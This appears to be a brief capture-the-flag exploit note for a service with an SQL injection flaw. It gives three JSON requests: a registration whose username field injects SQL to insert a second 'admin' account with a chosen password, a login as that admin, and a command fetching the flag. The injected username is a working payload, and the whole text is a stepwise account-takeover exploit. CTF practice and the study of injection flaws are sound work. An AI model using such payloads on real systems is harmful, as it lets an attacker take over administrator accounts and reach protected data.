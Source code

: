 vuln-type: sqli
1. create second admin: {"cmd":"reg", "user":"admin','qwe'); --", "password":"qwe"}
2. login {"cmd":"login", "user":"admin", "password":"qwe"}
3. get flag {"cmd":"flag"}